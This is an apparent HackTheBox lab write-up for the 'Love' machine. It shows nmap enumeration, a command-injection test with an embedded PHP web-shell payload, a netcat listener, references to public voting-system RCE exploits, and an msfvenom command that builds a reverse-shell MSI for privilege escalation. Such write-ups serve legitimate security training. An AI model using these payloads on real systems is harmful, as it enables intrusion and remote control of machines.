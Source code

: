 ```yaml
---
title: "Love"
date: 2023-11-07
categories: HTB
tags: ["love", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


## Enumeration
# Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
```
## HTTP
### Gobuster

![/assets/images/love11.png]

### Screenshots

![/assets/images/love1.png]

http://staging.love.htb/

![/assets/images/love2.png]

http://staging.love.htb/beta.php

![/assets/images/love3.png]

### Test for command injection

![/assets/images/love7.png]

![/assets/images/love6.png]

### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![/assets/images/love8.png]

### `/admin`

http://10.10.10.239/Admin/

![/assets/images/love9.png]

### `/plugins`

http://10.10.10.239/plugins/

![/assets/images/love10.png]

# Foothold
- Searching for `voting system` gives public exploit
- Using a [public exploit](https://www.exploit-db.com/exploits/49843) gives initial shell as phoebe.

The public exploit
![/assets/images/love12.png]

http://10.10.10.239/admin

![/assets/images/love13.png]

http://10.10.10.239/

![/assets/images/love14.png]

-> did not work on this URL

![/assets/images/love15.png]

Trying a different exploit [Voting Ssytem 1.0-Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/49846). 

![/assets/images/love16.png]

upload a shell

![/assets/images/love17.png]

rev.ps1

![/assets/images/love18.png]

![/assets/images/love19.png]

PHP Ivan web shell

![/assets/images/love20.png]

# Privilege Escalation

![/assets/images/love21.png]

![/assets/images/love22.png]

![/assets/images/love23.png]

![/assets/images/love24.png]

[HackTricks on AlwaysInstallElevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

![/assets/images/love25.png]

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![/assets/images/love26.png]
